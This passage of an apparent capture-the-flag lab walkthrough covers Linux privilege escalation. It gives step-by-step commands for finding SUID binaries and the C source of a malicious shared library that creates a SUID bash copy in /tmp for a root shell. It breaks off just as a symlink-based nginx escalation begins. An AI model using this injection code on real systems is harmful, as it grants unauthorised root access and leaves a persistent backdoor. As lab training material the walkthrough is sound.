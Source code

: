 
1. Click 'Completed' once you have successfully elevated the machine 

`No answer needed`

## Privilege Escalation - SUID (Shared Object Injection)

**Detection**

**Linux VM**

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command line type: `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

**Exploitation**

**Linux VM**

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c`
9. In command prompt type: `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---

1. Click 'Completed' once you have successfully elevated the machine

`No answer needed`

## Privilege Escalation - SUID (Symlinks)

**Detection**

**Linux VM**

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.

**Exploitation**

